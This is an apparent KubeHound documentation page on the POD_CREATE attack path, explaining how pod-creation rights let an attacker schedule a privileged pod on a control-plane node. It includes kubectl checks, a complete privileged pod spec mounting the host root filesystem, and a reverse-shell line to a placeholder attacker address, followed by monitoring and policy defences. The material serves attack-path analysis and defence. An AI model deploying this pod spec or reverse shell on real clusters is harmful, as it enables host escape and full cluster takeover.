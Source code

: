 ```yaml
---
title: POD_CREATE
---
```


<!--
id: POD_CREATE
name: "Create privileged pod"
mitreAttackTactic: TA0004 - Privilege escalation
mitreAttackTechnique: "T1053.007 - Scheduled Task/Job: Container Orchestration Job" 
-->

# POD_CREATE

Create a pod with significant privilege (`CAP_SYSADMIN`, `hostPath=/`, etc) and schedule on a target node via setting the `nodeName` selector.

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [PermissionSet](../entities/permissionset.md) | [Node](../entities/node.md) | [Container Orchestration Job, T1053.007](https://attack.mitre.org/techniques/T1053/007/) |

## Details

Given the rights to create a new pod, an attacker can create a deliberately overprivileged pod within the cluster. This will grant the attacker full control over the node on which the pod is scheduled (via any number of container escape techniques). Additionally by setting the `nodeName` selector in the pod spec to the control plane node, the attacker can gain root access to the control plane node and take over the entire cluster!

## Prerequisites

A role granting permission to create pods.

## Checks

Check whether the current account has the ability to create pods, for example using kubectl:

```bash
kubectl auth can-i create pod
```

## Exploitation

Identify the name of the target (e.g control plane) node via:

```bash
kubectl get nodes -o wide --all-namespaces | grep control-plane
```

Create a pod spec for our attack pod:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: control-plane-attack
  labels:
    app: pentest
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: control-plane-attack
    image: ubuntu
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "bash -i >& /dev/tcp/<attacker_ip>/<attacker_port> 0>&1" ]
  nodeName: < TARGET NODE NAME > 
  volumes:
  - name: noderoot
    hostPath:
      path: /
```

Create the pod via kubectl:

```bash
kubebctl apply -f control-plane-pod-spec.yaml
```

## Defences

### Monitoring

+ Monitor for pod creation from within an existing pod 
+ Monitor privileged pod creation with suspicious command arguments

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with additional powerful capabilities.

## Calculation

+ [PodCreate](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/pod_create.go)

## References:

+ [The Path Less Traveled: Abusing Kubernetes Defaults (Video)](https://www.youtube.com/watch?v=HmoVSmTIOxM)
+ [The Path Less Traveled: Abusing Kubernetes Defaults (GitHub)](https://github.com/mauilion/blackhat-2019)
+ [Bad Pods](https://bishopfox.com/blog/kubernetes-pod-privilege-escalation#Pod1)
